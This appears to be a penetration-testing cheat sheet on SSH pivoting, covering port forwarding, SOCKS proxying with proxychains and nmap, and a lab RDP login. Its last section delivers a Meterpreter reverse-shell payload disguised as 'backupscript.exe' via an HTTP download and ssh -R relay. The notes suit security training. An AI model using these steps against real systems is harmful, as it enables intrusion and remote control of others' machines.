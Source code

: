 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH



## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. When we use this, we will not get any response back.

## Dynamic Port Forwarding - SSH Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server has access to.

_**Attack hosts starts the SSH client via Dynamic Port Forward:**_

```bash
ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

_**Next we need a tool that can route any tool's packets over the specified port. We will use proxychains.**_

Proxychains is often used to force an application's `TCP traffic` to go through hosted proxies like `SOCKS4`/`SOCKS5`, `TOR`, or `HTTP`/`HTTPS` proxies.

We add socks4 _**127.0.0.1 9050**_ to our proxychains.conf file

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

_**Now we can start Nmap with proxychains. By specifying proxychains it forwards all packets over SSH to the 172.16.5.0/23 network**_

```bash
proxychains nmap -v -sn 172.16.5.1-200
```

_<mark style="color:red;">**NOTE:**</mark>_ proxychains only understands full TCP connections. So partial packets like half connect scans will not work. Additionally host-alive checks will not work as Windows Defender blocks ICMP requests (simple pings) by default.

### Using tools with Proxychains:

_**Msfconsole:**_

```bash
proxychains msfconsole
```

_**xfreerdp:**_

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Remote / Reverse Port Forwarding

Say we have a shell on an ubuntu server running on  the same network as us. We want to open a meterpreter payload on the windows host on a different network that we have rdp access to so we can execute low-level windows api functions.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-09-07 163608.png" alt=""><figcaption><p>Windows host is located on a different network than our jump host</p></figcaption></figure>

In this case we'll configure our reverse connection for the payload to our Ubuntu server's IP. (10.10.201.2). We will use port 8080 on the Ubuntu server to forward all packets back to our attack hosts' 8000 port.

```bash
 

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

_**Configuring & Starting multi/handler**_

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

_**We can copy our payload to the ubuntu server:**_

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

_**Then start a http server to serve the file to the windows machine we have rdp access to**_

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

_**On the windows machine we can fetch the file from our ubuntu server**_

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

\
_**Finally, we can SSH remote port forward to our msfconsole listener service on port 8000 & the ubuntu server's port 8080.**_&#x20;

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

The -R command asks the Ubuntu server to listen on \<targetIpAddress>:8080 and forward all incoming connections to our meterpreter listener on 0.0.0.0:8000 of our attack host.




